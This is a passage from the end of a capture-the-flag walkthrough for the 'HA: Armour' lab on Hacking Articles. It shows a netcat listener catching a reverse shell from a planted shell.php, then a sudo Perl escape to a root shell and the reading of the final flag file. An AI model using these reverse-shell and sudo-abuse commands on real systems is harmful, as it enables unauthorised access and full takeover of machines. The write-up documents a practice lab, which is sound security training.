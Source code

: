 ```
nc -lvp 1234  
http://192.168.1.101/shell.php
```

![](https://i0.wp.com/1.bp.blogspot.com/-VXf7k6DQ7qg/XZl7jqsa-UI/AAAAAAAAg0E/LowBiUNzp44aOTt1ASqv8XffV1x7tIvAACLcBGAsYHQ/s1600/23.png?w=687&ssl=1)

After some time, we got a reverse netcat shell on our local machine for user aarti. Now let’s check sudo rights for this user.

```
sudo -l
```

Here you can observe that it shows that user aarti has sudo right to run Perl application as root which means we can try to abuse its sudo for escalating root privilege.

```
sudo perl -e 'exec "/bin/bash";'
```

Boom!! We have the root shell access, let’s find the fifth and final amour. You can find it inside the /root directory within final.txt.

```
cd /root  
cat final.txt
```

And the final amour is my favourite “Iron-man” ![🤗](https://s.w.org/images/core/emoji/12.0.0-1/72x72/1f917.png) 

![](https://i2.wp.com/1.bp.blogspot.com/-GLN_T88uqbQ/XZl7jmlVSCI/AAAAAAAAg0A/2cfcNJBQy8IiAaZwmDt4ccNg2j74WhzdwCLcBGAsYHQ/s1600/24.png?w=687&ssl=1)

**Author**: Mohd Ahmed is a Cybersecurity enthusiast and Researcher in the field of WebApp Penetration testing. Contact [**here**](https://www.linkedin.com/in/mohd-ahmed-bb900616b/)

The post [HA: Armour Walkthrough](https://www.hackingarticles.in/ha-armour-walkthrough/) appeared first on [Hacking Articles](https://www.hackingarticles.in).

  
  
from Hacking Articles https://ift.tt/359N4OJ